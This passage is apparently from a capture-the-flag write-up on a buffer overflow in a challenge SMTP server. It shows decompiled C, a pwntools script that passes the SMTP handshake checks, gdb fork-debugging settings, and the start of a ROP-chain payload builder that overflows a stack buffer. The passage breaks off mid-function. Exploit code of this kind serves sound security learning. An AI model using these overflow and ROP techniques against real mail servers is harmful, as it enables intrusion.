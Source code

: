 ```c
      }
    }
    else {
      reply("556 Domain does not accept mail");
      iVar1 = -3;
    }
  }
  return iVar1;
}
```

The following Python code passes all those initial checks and lets us send arbitrary data.

```python
from pwn import *

sh = remote("smtp-666mww.inst.malicecyber.com", 4444)
def send_and_receive(message):
    print(message)
    sh.send(message + b"\r\n")
    return sh.recvuntil(b"\r\n").strip()

print(sh.recvuntil(b"220 smtp.dghack.fr SMTP Ready\r\n").decode())
print(send_and_receive(b"HELO"))
print(send_and_receive(b"MAIL FROM: <test@test.com>"))
print(send_and_receive(b"RCPT TO: <dga-mi-bruz.recrutement.fct@intradef.gouv.fr>"))
print(send_and_receive(b"DATA"))
```

## Exploiting the vulnerability

The vulnerability to exploit here is a buffer overflow.
Indeed, we can fill the `auStack1036` with arbitrary data, and no bound check is performed thus we can overflow it.

In order to test locally, I have used gdb and typed in the following instructions to be able to debug the child after fork:

```
set follow-fork-mode child
set detach-on-fork off
```

There are several nice features for our exploit:
- PIE is disabled, so we can very easily craft ROP chains;
- the executable has a lot of already included library functions so no return to lib will be necessary;
- we can include null bytes in our exploit.

First to perform our exploit, I needed to overwrite local variables and find the offset for jumping to a different function.

This Python code performs the rop chain provided in argument:

```python
def execute_rop(ropchain):
    p = b'a' * 1000
    p += b'pos0'
    p += b'lenr'
    p += p32(0) # receive data => end
    p += p32(0) # len data recv
    p += b"iiii"
    p += p32(0) # stage
    p += b"aaaabbbbcccc" # padding

    sh = remote("smtp-666mww.inst.malicecyber.com", 4444)
    print(sh.recvuntil(b"220 smtp.dghack.fr SMTP Ready\r\n").decode())
```